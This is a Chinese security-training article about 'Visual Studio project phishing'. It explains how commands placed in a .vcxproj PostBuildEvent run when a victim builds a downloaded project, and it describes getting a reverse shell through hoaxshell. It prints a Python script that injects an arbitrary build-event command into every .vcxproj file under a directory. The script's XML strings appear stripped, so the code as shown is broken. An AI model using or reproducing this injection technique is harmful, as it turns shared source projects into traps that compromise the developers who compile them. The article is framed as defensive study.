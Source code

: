 #  Visual Studio项目钓鱼

原创 zkaq-camer  [ 掌控安全EDU ](javascript:void\(0\);)

**掌控安全EDU** ![]()

微信号 ZKAQEDU

功能介绍 安全教程\高质量文章\面试经验分享，尽在#掌控安全EDU#

____

___发表于_

收录于合集

获网安教程

免费&进群

![](https://gitee.com/fuli009/images/raw/master/public/20230714175239.png)
![](https://gitee.com/fuli009/images/raw/master/public/20230714175240.png)  
本文由掌控安全学院-camer投稿，文章灵感来自 apt-38 钓鱼样本。

# 0x01 漏洞成因

漏洞的形成主要是因为Visual Studio的项目文件（vcxproj）是基于XML格式的，XML文件本身并不包含可执行代码。然而，Visual
Studio的XML解析器允许在项目文件中包含一些自定义的命令，这些命令可以在构建项目时被执行。

# 0x02 漏洞复现

正常情况下使用Visual Studio去编译github上下载的项目

![]()  
通过修改Visual Studio的项目文件（vcxproj)植入恶意命令

![](https://gitee.com/fuli009/images/raw/master/public/20230714175241.png)

当项目被下载编译时机会执行命令

![](https://gitee.com/fuli009/images/raw/master/public/20230714175242.png)

# 0x03 漏洞利用

可以直接反弹shell，通过hoaxshell直接生成powershell，并开启监听

![](https://gitee.com/fuli009/images/raw/master/public/20230714175243.png)

将代码插入Visual Studio的项目文件（vcxproj）的XML标签中

![](https://gitee.com/fuli009/images/raw/master/public/20230714175246.png)

直接编译，终端反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20230714175247.png)

漏洞利用脚本：

    
          1. import argparse
    
      2. import os
    
      3. import re
    
      4.   5. # 解析命令行参数
    
      6. parser = argparse.ArgumentParser(description='Insert PostBuildEvent node into .vcxproj files.')
    
      7. parser.add_argument('-d', '--directory', metavar='directory', type=str, default='.', help='the directory to search for .vcxproj files')
    
      8. parser.add_argument('-c', '--command', metavar='command', type=str, default='calc.exe', help='the command to be executed in the PostBuildEvent node')
    
      9. args = parser.parse_args()
    
      10.   11. # 定义正则表达式，用于匹配.vcxproj文件中的标签
    
      12. property_group_pattern = re.compile(r'\s*')
    
      13.   14. # 定义插入的节点内容
    
      15. post_build_event_node = '\n\n  \n    {command}\n  \n\n'.format(command=args.command)
    
      16.   17. # 遍历指定目录下的所有文件和子目录
    
      18. for root, dirs, files in os.walk(args.directory):
    
      19.     # 遍历当前目录下的所有文件
    
      20.     for file in files:
    
      21.         # 如果文件扩展名是.vcxproj，则进行处理
    
      22.         if file.endswith('.vcxproj'):
    
      23.             file_path = os.path.join(root, file)
    
      24.             # 打开文件，读取全部内容
    
      25.             with open(file_path, 'r', encoding='utf-8') as f:
    
      26.                 content = f.read()
    
      27.             # 在标签后插入节点
    
      28.             new_content = property_group_pattern.sub(post_build_event_node + '\\g', content)
    
      29.             # 如果文件内容有变化，则写回文件
    
      30.             if new_content != content:
    
      31.                 with open(file_path, 'w', encoding='utf-8') as f:
    
      32.                     f.write(new_content)
    
    
    

  

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

![](https://gitee.com/fuli009/images/raw/master/public/20230714175248.png)  

 **没看够~？欢迎关注！**

  

  

 **分享本文到朋友圈，可以凭截图找老师领取**

上千 **教程+工具+交流群+靶场账号** 哦



![](https://gitee.com/fuli009/images/raw/master/public/20230714175239.png)

 ** ** **分享后扫码 加我！**

  

 **回顾往期内容**

[Xray挂机刷漏洞](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504665&idx=1&sn=eb88ca9711e95ee8851eb47959ff8a61&chksm=fa6baa68cd1c237e755037f35c6f74b3c09c92fd2373d9c07f98697ea723797b73009e872014&scene=21#wechat_redirect)  

[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)

[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  

[文库｜内网神器cs4.0使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  

[代码审计 |
这个CNVD证书拿的有点轻松](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503150&idx=1&sn=189d061e1f7c14812e491b6b7c49b202&chksm=fa6bb45fcd1c3d490cdfa59326801ecb383b1bf9586f51305ad5add9dec163e78af58a9874d2&scene=21#wechat_redirect)

[【精选】SRC快速入门+上分小秘籍+实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)

## [    代理池工具撰写 |
只有无尽的跳转，没有封禁的IP！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503462&idx=1&sn=0b696f0cabab0a046385599a1683dfb2&chksm=fa6bb717cd1c3e01afc0d6126ea141bb9a39bf3b4123462528d37fb00f74ea525b83e948bc80&scene=21#wechat_redirect)

![](https://gitee.com/fuli009/images/raw/master/public/20230714175248.png)

点赞+在看支持一下吧~感谢看官老爷~

你的点赞是我更新的动力

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

